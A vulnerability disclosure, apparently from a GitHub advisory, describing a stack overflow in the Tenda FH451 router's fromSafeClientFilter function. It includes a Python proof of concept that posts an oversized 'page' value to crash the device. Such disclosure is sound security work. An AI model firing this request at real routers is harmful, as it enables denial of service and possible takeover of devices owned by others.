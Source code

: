 # Tenda FH451 fromSafeClientFilter_page
### Overview
vendor: Tenda

product: FH451

version: v1.0.0.9

type: Stack Overflow
### Vulnerability Description
Tenda FH451 v1.0.0.9 were discovered to contain a stack overflow via the page parameter in the fromSafeClientFilter function.

### Vulnerability details
In function fromSafeClientFilter line 39, it reads in a user-provided parameter `page`. The variable `v9` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/2.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeClientFilter"

data = {
    "menufacturer": "a",
    "page": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```